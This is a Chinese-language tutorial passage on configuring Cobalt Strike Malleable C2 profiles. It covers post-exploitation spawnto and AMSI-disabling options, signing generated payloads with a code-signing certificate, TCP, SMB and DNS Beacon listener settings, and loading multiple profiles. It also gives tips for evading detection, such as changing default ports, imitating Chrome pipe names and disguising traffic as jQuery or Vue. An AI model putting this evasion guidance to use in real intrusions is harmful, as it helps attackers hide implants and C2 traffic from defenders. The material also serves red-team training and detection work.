
默认配置项只有五条
| Option | Example | Description |
|---|---|---|
| spawnto_x86 | %windir%\syswow64\rundll32.exe | |
| spawnto_x64 | %windir%\sysnative\rundll32.exe | |
| obfuscate | false | 混淆post-ex dll的内容，并在内存中以更安全的方式执行后渗透功能。这与 Beacon 的stage块中可用的混淆和 userwx 选项相似 |
| smartinject | false | 指示 Beacon 将关键函数指针（如 GetProcAddress 和 LoadLibrary）嵌入到同架构的post-ex DLL中。 这使 post-ex DLL可以在新进程中进行引导，而不会出现常规shellcode的行为，如使用PEB寻找kernel32.dll和其中的函数指针 |
| amsi_disable | false | 禁用amsi，指示 powerpick、execute-assembly 和 psinject 在加载 .NET 或 PowerShell 代码之前修补 AmsiScanBuffer 函数。这限制了反恶意软件扫描接口对这些功能的可见性 |
其中给定了一些注意事项
-
spawnto 最多只能为 63 个字符
-
二进制文件不会出现异常行为
-
进程名不要指定为"csrss.exe”,“logoff.exe”,“rdpinit.exe”,“bootim.exe”,“smss.exe”,“userinit.exe”,“sppsvc.exe”
-
二进制执行时不触发UAC
-
可以使用以下选项来混淆
set spawnto_x86 "%windir%\\syswow64\\svchost.exe -k netsvcs"; set spawnto_x64 "%windir%\\sysnative\\svchost.exe -k netsvcs"; 注意：但是svchost作为父进程可能看起来不太正常
[code-signer]
除了SSL证书外，还有一个代码签名证书，该证书用于直接在生成马时打上签名，如果不带该参数时，生成exe文件时无法选中sign executable file选项

参考keytool 生成证书链进行证书生成
在profile中配置code-signer字段
code-signer {
set keystore "keystore.jks";
set password "password";
set alias "server";
}
添加成功后执行c2lint检查配置文件正确性，如正确时输出如下，能成功识别到code-signer

此时签名功能已经可以使用

[TCP Beacon]
该配置项用于设置TCP Beacon监听端口

默认端口为4444，强烈建议修改，其实4444,8888这些都比较容易被查，在这份模拟jquery的profile中使用的是42585，实际使用的时候建议也修改一下
[SMB Beacon]
该配置项用于SMB Beacon的P2P通信

设置管道符名称就行，但是官方不建议使用已存在的管道名，因为Beacon不会检测冲突
[DNS Beacon]
该选项用于配置DNS Beacon

| 设置选项 | 范围 | 默认值 | 说明 |
|---|---|---|---|
| maxdns | 255 | 通过DNS传输数据时的主机名最长值 | |
| dns_idle | 0.0.0.0 | DNS Beacon回连请求时，无任务默认返回值 | |
| dns_max_txt | 252 | Maximum length of DNS TXT responses for tasks | |
| dns_sleep | 0 | Force a sleep prior to each individual DNS request. (in milliseconds) | |
| dns_stager_prepend | .resources.123456. | Prepend text to payload stage delivered to DNS TXT record stager | |
| dns_stager_subhost | .stage.123456. | Subdomain used by DNS TXT record stager. | |
| dns_ttl | 1 | TTL for DNS replies |
同时加载多重配置
由于一个teamserver只允许加载一个Malleable C2 Profile，如果更改了Malleable C2可能会影响其他已上线设备，因此在编写Profile时可以考虑配置多重配置
例如修改原profile中的http-get配置项，仅做示例使用，假装是个Vue

这时候重新加载Profile文件，在创建监听器时即可实现使用多种配置

其他Tips
-
避免GET和POST名过长，否则可能导致发包和回包都巨慢
-
C2Profile中的NamePipe最好选择与常规软件相近的NamePipe（比如Chrome）
-
想到了再写